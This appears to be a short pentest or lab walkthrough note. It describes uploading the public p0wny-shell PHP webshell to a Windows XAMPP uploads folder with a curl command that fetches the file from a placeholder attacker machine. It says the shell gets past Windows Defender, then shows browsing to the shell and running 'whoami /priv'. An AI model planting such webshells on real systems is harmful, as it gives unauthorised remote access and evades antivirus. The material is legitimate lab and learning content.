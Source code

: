 Use the [p0wny-shell](https://github.com/flozz/p0wny-shell/tree/master)  to get a shell that passes Windows Defender.

This webshell provides more permissions than the ones you had obtained [[Vulnerable.ps1]].

## Create the [p0wny-shell] file

#Attacking_machine 
1. Download the  file from [github](https://github.com/flozz/p0wny-shell/tree/master) .

#netcat_listener 
2. Upload the file to `C:\xampp\htdocs\uploads\`.

```
curl "http://<ATTACKING MACHINE>/p0wny-shell.php" -OutFile "C:\xampp\htdocs\uploads\p0wny-shell.php"
```

#Attacking_machine 
3. Visit  `http://<MACHINE IP>.80:8080/p0wny-shell.php`.
	![[Screenshot_2025-10-31_07-23-03.png]]

## Discover privileges

You have a new webshell where you can discover user's privilege.

Type:
```
whoami /priv
```



![[Screenshot_2025-10-31_07-26-12-1.png]]

